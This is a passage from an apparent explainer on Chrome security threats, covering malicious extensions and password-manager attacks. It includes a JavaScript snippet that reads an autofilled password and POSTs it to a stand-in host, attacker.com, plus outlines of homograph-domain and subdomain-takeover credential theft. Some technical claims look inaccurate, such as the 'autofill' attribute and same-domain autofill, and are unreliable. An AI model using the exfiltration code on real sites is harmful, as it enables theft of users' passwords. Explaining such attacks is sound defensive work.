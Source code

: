 **What they steal:**
- ✅ Every keystroke (passwords, credit cards)
- ✅ All browsing history
- ✅ Cookies and session tokens
- ✅ Form data before submission

**How they distribute:**
- ❌ Fake "ad blocker" extensions
- ❌ "VPN" extensions (that steal data)
- ❌ Compromised legitimate extensions
- ❌ Enterprise-forced extensions (corporate spyware)

#### D) Password Manager Exploits

**Chrome's built-in password manager vulnerabilities:**

**Exploit 1: XSS in password autofill**
```html
<!-- Malicious website -->
<input type="text" name="username" autofill="username">
<input type="password" name="password" autofill="current-password">

<script>
// Chrome autofills the password!
// JavaScript can read it before user submits
setTimeout(function() {
  var pwd = document.querySelector('input[type=password]').value;
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: pwd
  });
}, 100);
</script>
```

**Exploit 2: Fake domain with Unicode**
```
Attacker registers: аpple.com (Cyrillic 'а')
Looks like: apple.com (Latin 'a')
User visits malicious site
Chrome thinks it's apple.com
Autofills Apple password!
```

**Exploit 3: Subdomain takeover**
```
Real site: secure.example.com
Attacker finds abandoned subdomain: old.example.com
Takes over old.example.com
Chrome autofills passwords (same domain!)
Steals credentials
```

#### E) Chrome Remote Debugging
